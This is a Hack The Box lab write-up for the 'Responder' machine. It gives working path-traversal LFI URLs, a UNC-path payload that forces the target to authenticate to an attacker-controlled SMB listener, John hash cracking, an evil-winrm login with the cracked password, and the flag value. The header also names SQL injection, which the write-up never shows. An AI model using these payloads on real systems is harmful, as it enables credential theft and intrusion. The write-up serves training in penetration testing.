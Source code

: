 # [Responder] — [Type: HTB | Lab]
**Date**: 2025-09-01  
**Difficulty**: Easy  
**Target IP/URL**: 10.129.41.190 (unika.htb)  
**Objective**: Exploit SQL injection and server-side vulnerabilities to capture the flag

---

## 1. Reconnaissance
**Tools & Commands Used**:
- **Nmap**: Initial scan to identify open ports and services.
- **Quiver**: Used for streamlined pentesting (https://github.com/stevemcilwain/quiver).
  - `qq-enum-host-nmap-top-discovery` (Quiver wrapper):
    - `sudo nmap -vvv -Pn -sS --top-ports 1000 --open -sC -sV 10.129.41.190 -oA /home/kali/Hackthebox/responder/hosts/10.129.41.190/nmap-top-discovery`
  - `qq-enum-host-nmap-all-discovery` (full port scan):
    - `sudo nmap -vvv -Pn -sS -p- --min-rate 1000 -sC -sV --open 10.129.41.190 -oA /home/kali/Hackthebox/responder/hosts/10.129.41.190/nmap-all-discovery`

**Findings**:
- **80/tcp**: Open, running Apache httpd 2.4.52 (Win64, OpenSSL/1.1.1m, PHP/8.1.1).  
  [Image: nmap-top-scan]
- **5985/tcp**: Open, running Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP, likely WinRM).  
  [Image: nmap-all-scan]
- **3306/tcp**: Open, running MySQL (from second scan).

---

## 2. Enumeration
**Tools & Commands Used**:
- **Nmap**: Service and version detection.
  - `nmap -sC -sV -oN scan.txt -iL ip-address.txt` (target: 10.129.41.190).
- **Manual Web Recon**: Browsed `http://10.129.41.190`, probed paths (`/admin`, `/login`, `/backup`, `/signup`).

**Findings**:
- Browser returned: “We can’t connect to the server at unika.htb.” Indicates name-based virtual hosting.
- Added `10.129.41.190 unika.htb` to `/etc/hosts` to resolve the hostname.
- Visited `http://unika.htb`, changed language, got `http://unika.htb/index.php?page=french.html`. Suspected LFI due to `page` parameter.
- Confirmed MySQL on port 3306, suggesting a potential database-backed web app.

---

## 3. Exploitation
**Vulnerability Identified**:
- **Local File Inclusion (LFI)**: The `page` parameter in `http://unika.htb/index.php?page=` allows arbitrary file inclusion due to unsanitized input in PHP’s `include()` function.
- **No CVE**: Common misconfiguration in PHP apps, not tied to a specific CVE.
- **Why Vulnerable**: The server includes files based on user input without validation, enabling access to local files or triggering protocol-based attacks (e.g., SMB).

**Exploit Steps**:
1. Tested LFI manually with paths from `file_inclusion_windows.txt` (https://github.com/carlospolop/Auto_Wordlists).
   - `http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts` returned the Windows `hosts` file.  
     [Image: lfi-result]
   - `http://unika.htb/index.php?page=../../../../xampp/apache/conf/httpd.conf` revealed XAMPP’s Apache config (`ServerRoot "/xampp/apache"`).  
     [Image: lfi-result]
2. Used LFI to trigger SMB authentication:
   - Set up Responder: `sudo ./Responder.py -I tun0 -PvdD` on HTB VPN interface (`tun0`, IP: 10.10.15.53).  
     [Image: responder-scan]
   - Tried `http://unika.htb/index.php?page=\\10.10.15.53\share\test`, captured NetNTLMv2 hash for `Administrator`.  
     [Image: responder-result, responder-web-trigger]
3. Cracked hash with John:
   - `john -w=/usr/share/wordlists/rockyou.txt hash.txt` revealed password: `badminton`.  
     [Image: john-password-crack]
4. Connected via WinRM:
   - `evil-winrm -i 10.129.41.190 -u Administrator -p badminton` accessed `C:\Users\mike\Desktop`.  
     [Image: Evil-WinRM-connect]

---

## 4. Privilege Escalation
**Method**:
- **NTLM Authentication**: Captured NetNTLMv2 hash via LFI-triggered SMB request, cracked to gain Administrator credentials.  
  [Image: NTLM, NTLM vs NThash vs NetNTMLv2]

**Commands & Output**:
- **Responder Setup**:
  - `cat Responder.conf`: Confirmed SMB module enabled (default settings).  
    [Image: responder-result]
- **Hash Capture**:
  - Output: `[SMB] NTLMv2-SSP Username: RESPONDER\Administrator, Hash: Administrator::RESPONDER:097d0f6b1db46702:...`
- **WinRM Access**:
  - `evil-winrm -i 10.129.41.190 -u Administrator -p badminton`
  - Navigated to `C:\Users\mike\Desktop`, found `flag.txt`.

---

## 5. Post-Exploitation
- **Data Exfiltration**: Retrieved `flag.txt` from `C:\Users\mike\Desktop` using `type flag.txt` in WinRM session.
- **Persistence Method**: Not implemented (HTB resets box, no need for persistence).
- **Interesting Files Found**:
  - `C:\xampp\apache\conf\httpd.conf`: Confirmed XAMPP setup.
  - `C:\Users\mike\Desktop\flag.txt`: Contained user flag.

---

## 6. Results
**User Flag**: `ea81b7afddd03efaa0945333ed147fac`  
[Image: flag]

---

## 7. Lessons Learned
**Key Takeaways/Things I Did**:
- From my Nmap scan, I saw port 80/tcp open, running Apache 2.4.52 (Win64, OpenSSL/1.1.1m, PHP/8.1.1).  
  [Image: nmap-top-scan]
- Visited `http://10.129.41.190`, got “We can’t connect to unika.htb.” Realized it uses name-based virtual hosting.
- Added `10.129.41.190 unika.htb` to `/etc/hosts` to resolve it: `echo "10.129.41.190 unika.htb" | sudo tee -a /etc/hosts`.
- Loaded `http://unika.htb`, changed language, saw `http://unika.htb/index.php?page=french.html`. Suspected LFI in the `page` parameter.
- LFI occurs when a site includes files without sanitizing input, allowing access to unintended files. RFI is similar but uses remote files (e.g., HTTP, FTP).
- Tested LFI with `http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts` (from https://github.com/carlospolop/Auto_Wordlists). Got the `hosts` file.  
  [Image: lfi-result]
- Used LFI to read `httpd.conf`, confirmed XAMPP on Windows.
- Exploited LFI to trigger SMB auth with `http://unika.htb/index.php?page=\\10.10.15.53\share\test`. Windows sent a NetNTLMv2 hash to my machine (10.10.15.53).
- Cloned Responder (`git clone https://github.com/lgandx/Responder`), checked `Responder.conf` for SMB settings.  
  [Image: responder-scan]
- Initially failed SMB capture due to wrong interface (used `eth0` instead of `tun0`).
- Cracked hash with John, got `badminton`, then used `evil-winrm` to access the box and find the flag.

**Mistakes to Avoid**:
- Use the correct VPN interface (`tun0` for HTB, not `eth0`) for Responder and LFI triggers.
- Ensure SMB paths use backslashes (`\\`) not forward slashes (`//`) in LFI URLs.
- Double-check network reachability between target and attacker machine.
- Don’t skip manual LFI testing before automating—it confirms the vuln.

---

## 8. Images
- [nmap-top-scan]: Nmap scan showing port 80 open with Apache.
- [nmap-all-scan]: Nmap scan showing port 5985 (WinRM) and 3306 (MySQL).
- [lfi-result]: Successful LFI output for `hosts` and `httpd.conf`.
- [responder-result]: Responder capturing NetNTLMv2 hash.
- [responder-scan]: Responder setup and logs.
- [responder-web-trigger]: LFI URL triggering SMB auth.
- [john-password-crack]: John cracking the hash to reveal `badminton`.
- [Evil-WinRM-connect]: WinRM session accessing the target.
- [NTLM]: Diagram explaining NTLM authentication.
- [NTLM vs NThash vs NetNTMLv2]: Comparison of NTLM variants.
- [flag]: Output of `flag.txt` with `ea81b7afddd03efaa0945333ed147fac`.

---

## 9. References
- Responder: https://github.com/lgandx/Responder
- Auto Wordlists: https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt
- HackTheBox Writeup: https://www.hackthebox.com/
- Quiver Tool: https://github.com/stevemcilwain/quiver